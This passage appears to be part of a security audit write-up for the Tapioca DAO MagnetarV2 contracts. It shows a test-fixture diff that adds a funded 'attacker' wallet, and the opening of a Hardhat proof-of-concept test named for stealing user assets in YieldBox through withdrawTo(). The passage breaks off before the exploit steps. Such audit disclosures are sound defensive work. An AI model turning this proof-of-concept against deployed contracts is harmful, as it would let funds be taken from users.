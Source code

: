 ```
+    const attacker = new ethers.Wallet(
+        ethers.Wallet.createRandom().privateKey,
+        ethers.provider,
+    );
+
     if (!staging) {
         await setBalance(eoa1.address, 100000);
+        await setBalance(attacker.address, 100000);
     }

     // ------------------- Deploy WethUSDC mock oracle -------------------
@@ -1314,6 +1320,7 @@ export async function register(staging?: boolean) {

     if (!staging) {
         await setBalance(eoa1.address, 100000);
+        await setBalance(attacker.address, 100000);
     }

     const initialSetup = {
@@ -1341,6 +1348,7 @@ export async function register(staging?: boolean) {
         _sglLeverageModule,
         magnetar,
         eoa1,
+        attacker,
         multiSwapper,
         singularityFeeTo,
         liquidationQueue,
```

2. Create a new file to reproduce this PoC, magnetar_withdrawToChainAttack_PoC.test.ts
  - Make sure to create this new test file under the [`tapioca-periph-audit/test/`](https://github.com/Tapioca-DAO/tapioca-periph-audit/tree/023751a4e987cf7c203ab25d3abba58f7344f213/test) folder

```
import { expect } from 'chai';
import hre, { ethers, config } from 'hardhat';
import { BN, register, getSGLPermitSignature } from './test.utils';
import {
    loadFixture,
    takeSnapshot,
} from '@nomicfoundation/hardhat-network-helpers';

import SingularityArtifact from '../gitsub_tapioca-sdk/src/artifacts/tapioca-bar/Singularity.json';
import {
    SGLCollateral__factory,
    SGLBorrow__factory,
    SGLLeverage__factory,
    SGLLiquidation__factory,
} from '../gitsub_tapioca-sdk/src/typechain/tapioca-bar';


describe('MagnetarV2', () => {

    describe('Steal user assets using the withdrawTo() function', () => {
      it('Attacker will steal user assets in YieldBox using the withdrawTo', async () => {
        const {
            deployer,
            attacker,
            yieldBox,
            createTokenEmptyStrategy,
            deployCurveStableToUsdoBidder,
            usd0,
            bar,
            __wethUsdcPrice,
```